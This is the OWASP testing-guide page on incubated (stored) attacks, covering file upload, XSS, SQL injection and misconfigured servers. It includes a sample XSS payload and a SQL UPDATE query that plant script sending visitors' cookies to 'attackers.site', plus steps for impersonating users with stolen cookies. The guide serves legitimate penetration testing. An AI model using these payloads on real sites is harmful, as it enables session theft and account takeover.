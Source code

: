 # Testing Guide

## Summary

Also often referred to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct “watering hole” attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

-   The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
-   Secondly, once the attack vector was “recalled” the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, `incubated attacks` can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

-   File upload components in a web application, allowing the attacker to upload corrupted media files (JPEG images exploiting `CVE-2004-0200`, PNG images exploiting `CVE-2004-0597`, executable files, site pages with active component, etc.)
-   Cross-site scripting issues in public forums posts (see [Testing for Stored Cross Site Scripting](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting) for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user’s browser –using the trust level of the original (vulnerable) site at the user’s browser.
-   SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](https://sourceforge.net/projects/xss-proxy)).
-   Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

## Test Objectives

-   Identify injections that are stored and require a recall step to the stored injection.
-   Understand how a recall step could occur.
-   Set listeners or activate the recall step if possible.

## How to Test

### Black-Box Testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1.  Introduce JavaScript code as the value for the vulnerable field, for instance `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`
2.  Direct users to browse the vulnerable page or wait for the users to browse it. Have a “listener” at `attackers.site` host listening for all incoming connections.
3.  When users browse the vulnerable page, a request containing their cookie (`document.cookie` is included as part of the requested URL) will be sent to the `attackers.site` host, such as: `GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1`
4.  Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in [Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let’s suppose there is a `footer` table at the database with all footers for the web site pages, including a `notice` field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the `notice` field at the `footer` table in the database.

```
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
   WHERE notice = 'Copyright 1999-2030';
```

Now, each user browsing the site will silently send their cookies to the `attackers.site`.

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray-Box Testing

Gray-box or white-box testing techniques will be the same as previously discussed.

-   Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisted via a `back door`.
-   To combat the `back door` issue for client-side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

## Tools

-   [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
-   [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org/)
-   [Burp Suite](https://portswigger.net/burp)
-   [Metasploit](https://www.metasploit.com/)

## References

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

### Advisories

-   [CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
-   [Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability](https://cxsecurity.com/issue/WLB-2006080004)

### Whitepapers

-   [Web Application Security Consortium “Threat Classification, Cross-site scripting”](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)

---

# Test Documentation

Document here every action performed for this test.